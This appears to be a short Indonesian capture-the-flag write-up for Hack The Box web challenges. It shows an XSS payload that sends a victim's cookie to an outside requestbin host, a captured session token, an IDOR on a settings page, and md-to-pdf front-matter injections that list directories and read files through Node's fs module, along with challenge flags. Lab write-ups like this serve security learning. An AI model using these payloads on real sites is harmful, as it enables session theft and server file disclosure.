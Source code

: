 ## Kryptos Support
Disini kita menggunakan XSS vulnerability:
```
<script>document.location="https://requestbin.io/112j9z21?"+document.cookie;</script>
```
![](Pasted%20image%2020220515080633.png)
```
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1NzY2OTJ9._XSOlGzcLlymD93QD9JcaOtxN7KI9KwNfWz8JnED_J8
```

Kita bisa menggunakan IDORS pada:
http://68.183.37.74:30665/settings
![](Pasted%20image%2020220515093732.png)
### Flag
HTB{x55_4nd_id0rs_ar3_fun!!}

## BlinkerFluids

#### read directory
```
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```
#### read file
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt', 'base64')}"; display: block }`,
}
---
![](Pasted%20image%2020220515183045.png)
![](Pasted%20image%2020220515182844.png)

### Flag
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

### Referensi
https://github.com/simonhaenisch/md-to-pdf/issues/99
https://www.geeksforgeeks.org/node-js-fs-readdirsync-method/ // to read directory
https://nodejs.dev/learn/reading-files-with-nodejs // to read file

## Space pirate: Going Deeper
pass
```
DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft
```
